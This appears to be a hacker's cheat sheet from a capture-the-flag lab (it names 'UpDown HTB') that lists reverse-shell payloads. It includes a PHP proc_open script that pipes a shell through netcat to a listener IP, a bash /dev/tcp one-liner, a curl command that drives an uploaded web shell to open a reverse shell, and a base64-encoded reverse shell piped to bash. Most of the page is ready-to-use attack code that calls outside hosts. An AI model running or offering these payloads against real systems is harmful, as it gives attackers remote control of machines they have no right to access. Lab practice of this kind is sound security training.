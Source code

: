This was from UpDown HTB
```
<?php
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("file", "/tmp/error-output.txt", "a") // stderr is a file to write to
);
$process = proc_open("bash", $descriptorspec, $pipes);
if (is_resource($process)) {
    // $pipes now looks like this:
    // 0 => writeable handle connected to child stdin
    // 1 => readable handle connected to child stdout
    // Any error output will be appended to /tmp/error-output.txt
fwrite($pipes[0], "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.76 2222 >/tmp/f");
    fclose($pipes[0]);
    while (!feof($pipes[1])) {
        echo fgets($pipes[1], 1024);
    }
    fclose($pipes[1]);
    // It is important that you close any pipes before calling
    // proc_close in order to avoid a deadlock
    $return_value = proc_close($process);
    echo "command returned $return_value\n";
}
?>
google.com
google.com
google.com
google.com
google.com
google.com
```


#### BASH

```
bash -i >& /dev/tcp/MyIP/9999 0>&1

Base One-liner for URL RCE + Encoded
---

curl -k http://192.168.220.52/cmsms/uploads/shell.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.225%2F4444%200%3E%261%22


Base64 encode
---

echo YmFzaCAtaT4mIC9kZXYvdGNwLzE5Mi4xNjEuMTEuMi81NDMyMSAwPiYxCg==|base64 -d"|bash

```
#### RUBY
